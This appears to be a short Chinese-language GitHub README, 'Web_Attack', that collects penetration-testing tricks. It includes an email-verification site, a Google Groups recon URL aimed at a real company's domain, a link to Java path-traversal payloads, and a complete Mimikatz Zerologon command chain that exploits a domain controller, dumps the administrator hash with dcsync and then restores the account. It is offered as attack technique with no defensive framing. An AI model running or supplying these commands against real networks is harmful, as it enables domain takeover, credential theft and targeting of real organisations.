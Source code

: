 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445
lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$
lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit
lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm
lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$
